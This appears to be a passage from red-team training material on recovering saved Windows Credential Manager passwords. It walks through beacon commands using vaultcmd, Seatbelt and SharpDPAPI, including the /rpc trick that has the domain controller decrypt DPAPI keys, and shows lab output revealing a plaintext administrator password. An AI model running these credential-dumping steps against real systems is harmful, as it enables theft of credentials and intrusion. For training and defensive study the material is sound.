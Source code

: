 
> This technique can be used from a medium-integrity context.

The Windows Credential Manager stores other credentials that the user has asked Windows to save, such as those for Remote Desktop connections.  An adversary may decrypt these credentials to recover the plaintext credentials [T1555.004](https://attack.mitre.org/techniques/T1555/004/)

The native `vaultcmd` utility will show the presence of any saved credentials.
```powershell
beacon> run vaultcmd /listcreds:"Windows Credentials" /all

Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/10.10.120.10
Identity: Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

As too will Seatbelt's `WindowsVault` command.

```powershell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

====== WindowsVault ======

  Vault GUID     : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Vault Type     : Web Credentials
  Item count     : 0

  Vault GUID     : 77bc582b-f0a6-4e15-4e80-61736b6f3b29
  Vault Type     : Windows Credentials
  Item count     : 1
      SchemaGuid   : 3e0e35be-1b77-43e7-b873-aed901b6275b
      Resource     : String: Domain:target=TERMSRV/lon-ws-1
      Identity     : String: LON-WS-1\Administrator
      PackageSid   : (null)
      Credential   : 
      LastModified : 14/02/2025 14:02:28
```

The way these credential blobs are encrypted is a little convoluted.  They're encrypted using randomly-generated AES key, which are themselves encrypted using the user's master DPAPI key.  To decrypt them manually, you have to find which master key was used, decrypt it using DPAPI, and then use the decrypted key to decrypt the credential blob.

Luckily, tools like SharpDPAPI automate that process.

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /rpc

Folder       : C:\Users\pchilds\AppData\Local\Microsoft\Credentials\

  CredFile           : 9CAEEF854B7702E986B47C751DFE9AD2

    guidMasterKey    : {120b3a8a-683d-4db8-8f13-e4c466949bd2}
    size             : 396
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data
    LastWritten      : 14/02/2025 14:02:28
    TargetName       : Domain:target=TERMSRV/lon-ws-1
    TargetAlias      :
    Comment          :
    UserName         : LON-WS-1\Administrator
    Credential       : Passw0rd!
```

The `credentials` command will search through the saved credentials blobs for the current user, and attempts to decrypt them.  With no further arguments, it will try to use cached keys (which may be present if the user has recently accessed the credential).  If no cached keys are present, the `/rpc` argument can be used which leverages the Microsoft BackupKey Remote Protocol (MS-BKRP) to ask the domain controller to decrypt the AES key for us.  This works because the DCs keep a copy of the user's master DPAPI key for emergencies.
